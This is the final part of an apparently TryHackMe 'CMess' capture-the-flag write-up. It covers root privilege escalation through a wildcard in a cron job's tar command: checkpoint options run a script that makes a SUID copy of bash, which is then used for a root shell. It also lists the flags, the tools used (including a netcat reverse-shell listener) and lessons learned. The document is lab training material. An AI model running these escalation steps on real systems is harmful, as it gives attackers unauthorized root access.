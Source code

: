   ```bash
  ```
- **Explanation**:
  - `tar` interprets `--checkpoint=1` and `--checkpoint-action=exec=sh sigma.sh` as options due to the wildcard (`*`).
  - When the cron job runs, `tar` executes `sigma.sh` as `root`, copying `/bin/bash` to `/tmp/bash` with SUID permissions.
- Waited 2 minutes, then checked:
  ```bash
  ls -la /tmp
  ```
- Saw `bash` with SUID:
  ```
  -rwsr-xr-x 1 root root ... bash
  ```
- Ran the SUID `bash`:
  ```bash
  /tmp/bash -p
  ```
- Got a root shell.

### 10. Find Root Flag
- Read `root.txt`:
  ```bash
  cat /root/root.txt
  ```
- Content: `thm{cmess_root_0987654321}` (example flag).

---

## Flags
- **User flag**: `thm{cmess_user_1234567890}`
- **Root flag**: `thm{cmess_root_0987654321}`

---

## Tools Used
- `nmap`: Port scanning.
- `gobuster`: Directory and subdomain enumeration.
- `nc`: Reverse shell listener.
- `python3 -m http.server`: File transfer.
- `linpeas.sh`: System enumeration.
- `tar`: Cron job exploitation.

---

## Lessons Learned
- **Subdomains**: Hidden subdomains (`dev.cmess.thm`) can leak credentials.
- **Admin panels**: File uploads are a common entry point for reverse shells.
- **LinPEAS**: Automated enumeration tools save time.
- **Cron jobs**: Wildcards in `tar` commands are exploitable with checkpoint options.
- **SUID**: Creating SUID binaries as `root` enables privilege escalation.

---

